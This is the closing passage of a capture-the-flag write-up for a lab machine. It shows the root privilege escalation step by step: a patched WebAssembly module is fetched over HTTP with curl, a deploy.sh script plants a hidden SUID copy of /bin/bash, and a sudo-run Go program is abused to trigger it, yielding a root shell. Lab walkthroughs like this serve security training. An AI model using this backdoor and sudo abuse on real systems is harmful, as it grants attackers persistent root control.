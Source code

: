here's the `main.wat` file
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

as we can see from the above code that `result i32` is a constant variable `i32.const 0` which will alwasy return `0`, so let's change it to `1`

change `i32.const 0` to `i32.const 1` and then recompile the binary file.

```bash
wat2wasm main.wasm
```

now transferring the `main.wasm` file on the victim machine.
```bash
python3 -m http.server 		(victim machine)
curl http://10.10.14.35:8000/main.wasm -o main.wasm 	(attacker machine)
```

now here the our `deploy.sh` script
```bash
#!/bin/sh

cp /bin/bash /home/admin/.rootshell
chmod +s /home/admin/.rootshell
ls -al /home/admin/.rootshell
```

everyting is ready now, let's run the `index.go` as root

```bash
admin@ophiuchi:/tmp/privesc$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
uid=0(root) gid=0(root) groups=0(root)
-rwsr-sr-x 1 root root 1183448 May 17 08:47 /home/admin/.rootshell
```

### Root Flag
Now we have a copy of `/bin/bash` binary as `.rootshell` with `SUID` bit set, let's be root now :)
```bash
admin@ophiuchi:/tmp/work$ /home/admin/.rootshell -p
.rootshell-5.0# /bin/bash
.rootshell-5.0# cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
.rootshell-5.0#
```

#### Flag
```bash
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

And here we completed the machine, So that's it for now, Hope I'll see you again
Don't forget to share if you liked it...